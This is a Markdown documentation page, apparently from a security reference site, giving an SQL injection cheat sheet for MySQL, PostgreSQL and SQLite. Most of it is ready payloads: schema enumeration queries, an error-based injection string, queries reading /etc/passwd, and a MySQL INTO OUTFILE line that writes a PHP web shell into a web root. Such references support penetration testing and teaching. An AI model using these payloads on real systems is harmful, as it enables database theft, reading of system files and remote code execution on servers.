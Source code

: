 ```yaml
---
title: "SQL Injection"
description: "Overview of SQL Injection"
lead: "Overview of SQL Injection"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "server-side"
weight: 620
toc: true
---
```


## Definition

**SQL injection** allows attackers to execute malicious SQL queries through user input areas, potentially accessing, modifying, or deleting data.

## DMBS Identification

### Version

| DBMS        | Query                      | Output (example) |
| ----------- | -------------------------- | ---------------- |
| SQLite      | `SELECT sqlite_version()`  | 3.42.0           |
| MySQL       | `SELECT VERSION()`         | 5.7.38           |
| PostgreSQL  | `SELECT version()`         | PostgreSQL 14.8 ... |

### SQL Functions

| PostgreSQL           | SQLite              | MySQL               |
| -------------------- | ------------------- | ------------------- |
| `'a'\|\|'b'`         | `'a'\|\|'b'`        | `'a' 'b'`           |
| `POW(3,2)`           | `POW(3,2)`          | `POW(3,2)`          |
| `CHR(65)`            | `CHAR(65)`          | `CHAR(65)`          |
| `ASCII('A')`         | `UNICODE('A')`      | `ASCII('A')`        |
| `SUBSTR('abc',2,1)`  | `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` |
| `PG_SLEEP(4)`        | *Unknown*           | `SLEEP(4)`          |
| `SIMILAR TO`, `~`    | `REGEXP`, `GLOB`    | `REGEXP`            |

### Testing & Documentation

- [PostgreSQL - Online](https://onecompiler.com/postgresql/) - [Docs](https://www.postgresql.org/docs/)
- [MySQL - Online](https://onecompiler.com/mysql/) - [Docs](https://dev.mysql.com/doc/refman/8.0/en/)
- [MariaDB - Online](https://onecompiler.com/mariadb/)
- [Microsoft SQL Server - Online](https://onecompiler.com/sqlserver)
- [Oracle - Online](https://livesql.oracle.com/)
- SQLite3: run the command `sqlite3` - [Docs](https://www.sqlite.org/docs.html)

## Database enumeration

### MySQL

```
SELECT GROUP_CONCAT(schema_name,',') FROM information_schema.schemata;
SELECT GROUP_CONCAT(table_name,',') FROM information_schema.tables;
SELECT GROUP_CONCAT(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### PostgreSQL

```
SELECT string_agg(table_name,',') FROM information_schema.tables;
SELECT string_agg(table_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### SQLite

```
SELECT GROUP_CONCAT(tbl_name,',') FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE tbl_name='users';
SELECT GROUP_CONCAT(name,',') FROM PRAGMA_TABLE_INFO('users');
```

## Error based

### PostgreSQL

```
' AND 1=CAST((SELECT username FROM users) AS int)--
```

## File read/write & RCE

### PostgreSQL

```
select pg_ls_dir('.');
select pg_read_file('/etc/passwd');
```

### MySQL

```
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_REQUEST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
